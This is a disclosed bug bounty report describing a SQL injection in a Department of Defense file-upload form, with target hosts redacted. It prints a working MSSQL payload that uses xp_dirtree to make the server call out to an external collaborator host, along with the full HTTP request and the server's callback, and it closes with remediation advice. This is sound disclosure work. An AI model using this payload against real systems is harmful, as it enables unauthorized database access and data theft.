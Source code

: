 #  SQL injections

## Report Details
- **Report ID**: 272506
- **URL**: https://hackerone.com/reports/272506
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-09-27T21:36:33.009Z
- **Disclosed**: 2019-10-04T15:19:56.603Z

## Reporter
- **Username**: lfb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
An email is not well handeled and leads to sql injection.
**Description:**
This request
POST /FileTransfer/Upload HTTP/1.1
Host: www.███████

The parameter **from** is injectable and leads to valid sql injection.
## Impact
I didn't go all out and get a shell but, an attaker could exctract db information or execute sql command on the serve with the rights of the db user.

## Step-by-step Reproduction Instructions
Payload injection 
```
';declare @q varchar(99);set @q='\\4fkxoc5km935m5n0dqqu3vvk5bb1zq.burpcollaborator.net/random'; exec master.dbo.xp_dirtree @q;-- 
```

Request to make execute the sql command 
```
POST /FileTransfer/Upload HTTP/1.1
Host: www.███
Connection: close
Content-Length: 269
Cache-Control: max-age=0
Origin: https://www.████
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarybjrDo2DV1yHQWvAQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Referer: https://www.█████████/FileTransfer/
Accept-Language: en-GB,en-US;q=0.8,en;q=0.6,fr;q=0.4

------WebKitFormBoundarybjrDo2DV1yHQWvAQ
Content-Disposition: form-data; name="from"

hello';declare @q varchar(99);set @q='\\4fkxoc5km935m5n0dqqu3vvk5bb1zq.burpcollaborator.net/random'; exec master.dbo.xp_dirtree @q;-- 
------WebKitFormBoundarybjrDo2DV1yHQWvAQ
```

first I get a dns query on my burp collaborator (see sqli2.png)

second I get the server to poll with master.dbo.xp_dirtree from 143.85.74.18 at 2017-Sep-27 21:29:55
```
PROPFIND /random HTTP/1.1
Host: 4fkxoc5km935m5n0dqqu3vvk5bb1zq.burpcollaborator.net
Content-Length: 0
Depth: 0
translate: f
User-Agent: Microsoft-WebDAV-MiniRedir/6.0.6002
Accept-Encoding: gzip, deflate, identity
Connection: Keep-Alive
X-BlueCoat-Via: ██████████
```

Also it is easy to see that the single quote breaks the sql syntax.

## Suggested Mitigation/Remediation Actions
Make prepared statement so the **'** doesnt get interpreted. (Input data validation)
Maybe verify other parameters.

## Attachments
No attachments
